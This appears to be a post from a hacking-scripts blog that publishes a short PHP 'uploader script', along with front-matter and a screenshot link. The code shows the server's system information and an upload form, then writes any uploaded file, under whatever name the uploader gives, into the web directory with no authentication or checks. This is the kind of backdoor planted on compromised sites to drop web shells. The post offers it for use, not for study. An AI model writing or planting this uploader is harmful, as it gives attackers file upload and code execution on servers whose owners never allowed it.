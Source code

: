 ```yaml
---
id: 66
title: Uploader Script
author: admin
layout: post
guid: http://hackingscripts.com/?p=66
permalink: /uploader-script/
categories:
  - PHP
  - Upload
tags:
  - PHP
  - uploader
---
```

This is a very basic uploader script, which simply enables the user to upload whatever they want to the server.


### Uploader Script Source Code

{% highlight php %}<?php
echo '&lt;b&gt;&lt;br&gt;&lt;br&gt;'.php_uname().'&lt;br&gt;&lt;/b&gt;';
echo '&lt;form action="" method="post" enctype="multipart/form-data" name="uploader" id="uploader"&gt;';
echo '&lt;input type="file" name="file" size="50"&gt;&lt;input name="_upl" type="submit" id="_upl" value="Upload"&gt;&lt;/form&gt;';
if( $_POST['_upl'] == "Upload" ) {
    if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { echo '&lt;b&gt;Upload SUKSES !!!&lt;/b&gt;&lt;br&gt;&lt;br&gt;'; }
    else { echo '&lt;b&gt;Upload GAGAL !!!&lt;/b&gt;&lt;br&gt;&lt;br&gt;'; }
}
?>
{% endhighlight %}


### Uploader Script Screenshot

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/01/uploader.png" alt="uploader script screenshot" width="495" height="108" class="aligncenter size-full wp-image-333" />][1]

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/01/uploader.png